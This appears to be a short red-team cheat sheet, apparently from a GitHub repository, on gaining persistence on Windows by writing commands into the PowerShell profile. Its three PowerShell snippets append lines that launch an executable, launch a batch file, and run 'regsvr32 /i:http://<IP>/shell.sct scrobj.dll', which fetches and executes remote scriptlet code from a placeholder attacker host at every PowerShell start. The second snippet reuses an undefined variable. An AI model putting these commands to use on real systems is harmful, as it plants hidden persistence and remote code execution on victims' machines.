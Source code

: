 # Powershell Profile

## 01 - Powershell

### 1.1 - Dropper

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.2 - Batch Script

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.3 - Web Delivery

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

- [PentestLab: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

- [Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

- [PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)